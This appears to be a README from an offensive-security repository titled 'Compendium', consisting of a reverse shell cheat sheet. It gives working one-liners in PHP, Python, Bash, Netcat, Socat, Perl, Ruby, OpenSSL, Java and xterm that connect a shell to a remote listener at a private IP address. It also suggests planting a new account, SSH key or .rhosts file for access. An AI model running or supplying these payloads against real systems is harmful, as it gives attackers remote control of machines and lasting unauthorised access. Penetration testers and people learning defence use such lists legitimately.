 # Compendium
Compendium:  A concise but detailed collection of Scripts, Reverse Shells and Commands for Offensive Security. 

### Reverse Shell Cheat Sheet

It is always worth trying to add a new account / SSH key / .rhosts file and just log in.

These scripts are designed for Linux systems but to make them work on Windows replace “/bin/sh -i” with “cmd.exe”.

#### Php :

```
php -r '$sock=fsockopen("192.168.0.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Python :

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Bash :

```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

#### Netcat :

```
nc -e /bin/sh 192.168.0.5 4444
```

#### Socat :

```
socat tcp-connect:192.168.0.5:4444 system:/bin/sh
```

#### Perl :

```
perl -e 'use Socket;$i="192.168.0.5";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Ruby :

```
ruby -rsocket -e'f=TCPSocket.open("192.168.0.5",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### OpenSSL:

On your machine (to receive, not a normal TCP connection)
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes # generate some arbitrary cert
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

On PWN'd client
```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.5:4444 > /tmp/s; rm /tmp/s
```

#### Java :

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5< >/dev/tcp/192.168.0.5/4444;cat <& 5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### xterm :

```
xterm -display 192.168.0.5:4444
```
